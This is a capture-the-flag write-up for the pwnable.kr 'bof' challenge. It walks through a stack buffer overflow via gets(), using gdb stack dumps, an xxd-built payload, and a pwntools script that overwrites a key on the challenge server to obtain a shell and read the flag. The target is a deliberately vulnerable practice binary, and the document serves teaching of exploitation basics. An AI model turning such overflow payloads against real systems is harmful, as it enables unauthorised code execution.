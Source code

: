 # pwnable.kr: bof

In this program,
1. The method func is called with a key of 0xdeadbeef
2. User input is then used to fill a char array via gets()
3. The key is then compared with 0xcafebabe, if it matches, we get a shell :)

We want to overwrite the value of the key to 0xcafebabe, so that the comparison succeeds. This can be done by supplying more than 32 characters when gets() read in input.

We run the program with gdb to observe the stack value
```
$ gdb bof
(gdb) break func
(gdb) run
(gdb) x/40x $esp
0xbffff300:	0x8000032e	0x00000000	0x00c30000	0x00000001
0xbffff310:	0xbffff571	0x0000002f	0xbffff36c	0x8000073a
0xbffff320:	0x80001ff4	0x800006b0	0x00000001	0x8000049d
0xbffff330:	0xb7fc73e4	0x00000016	0x80001ff4	0x800006d1
0xbffff340:	0xffffffff	0xb7e531c6	0xbffff368	0x8000069f
0xbffff350:	0xdeadbeef	0x00000000	0x800006b9	0xb7fc6ff4
0xbffff360:	0x800006b0	0x00000000	0x00000000	0xb7e394e3
0xbffff370:	0x00000001	0xbffff404	0xbffff40c	0xb7fdc858
0xbffff380:	0x00000000	0xbffff41c	0xbffff40c	0x80000000
0xbffff390:	0x800002c0	0xb7fc6ff4	0x00000000	0x00000000
```

We observe our 0xdeadbeef at 0xbffff350. We proceed with step, and input "aaaaaaaa" as test.
```
(gdb) step
Single stepping until exit from function func,
which has no line number information.
overflow me : 
aaaaaaaa
Nah..
0x8000069f in main ()
(gdb) x/40x $esp-0x50
0xbffff300:	0x800007a3	0x00000000	0x00c30000	0x00000001
0xbffff310:	0xbffff571	0x0000002f	0xbffff36c	0x61616161
0xbffff320:	0x61616161	0x80000600	0x00000001	0x8000049d
0xbffff330:	0xb7fc73e4	0x00000016	0x80001ff4	0x7763aa00
0xbffff340:	0xffffffff	0xb7e531c6	0xbffff368	0x8000069f
0xbffff350:	0xdeadbeef	0x00000000	0x800006b9	0xb7fc6ff4
0xbffff360:	0x800006b0	0x00000000	0x00000000	0xb7e394e3
0xbffff370:	0x00000001	0xbffff404	0xbffff40c	0xb7fdc858
0xbffff380:	0x00000000	0xbffff41c	0xbffff40c	0x80000000
0xbffff390:	0x800002c0	0xb7fc6ff4	0x00000000	0x00000000
```

We observe that our input of "aaaaaaaa" have been written from 0xbffff31c onwards. We want to input 13 blocks of "aaaa" followed by our 0xcafebabe in char value.

To convert hex to ascii: [http://stackoverflow.com/questions/13160309/conversion-hex-string-into-ascii-in-bash-command-line]
```
$ echo 61616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161cafebabe | xxd -r -p
```

Supply this to the program, however, it tells us that stack smashing is detected. But, the "Nah..." is still printed out! Perhaps something is wrong with the piping...
```
$ (echo 61616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161616161cafebabe | xxd -r -p) | ./bof
*** stack smashing detected ***: /home/bof/bof terminated
overflow me : 
Nah..
```

Let's try again with pwntools [http://docs.pwntools.com]
```
#!/usr/bin/python

from pwn import *

# open connection
#conn = process('./bof') # local process for debugging
conn = remote('pwnable.kr', 9000)

# prepare payload
payload = 'aaaa' * 13 + pack(0xcafebabe, 'all', 'little', True)
print 'Payload: ', payload

# send payload
print 'Sending payload...'
conn.sendline(payload)
print 'Sending ls...'
conn.sendline('ls')

# get output
print conn.recvline()
```
The ouput of ```ls``` shows us only the executable bof exist in the directory, where is the flag :( With ```ls -al``` instead, we see that the flag does exist. Let's change our ```ls``` to ```cat flag```

```
$ ./bof.py
[+] Opening connection to pwnable.kr on port 9000: Done
Payload:  aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xbe\xba\xfe�
Sending payload...
Sending ls...
daddy, I just pwned a buFFer :)

[*] Closed connection to pwnable.kr port 9000
```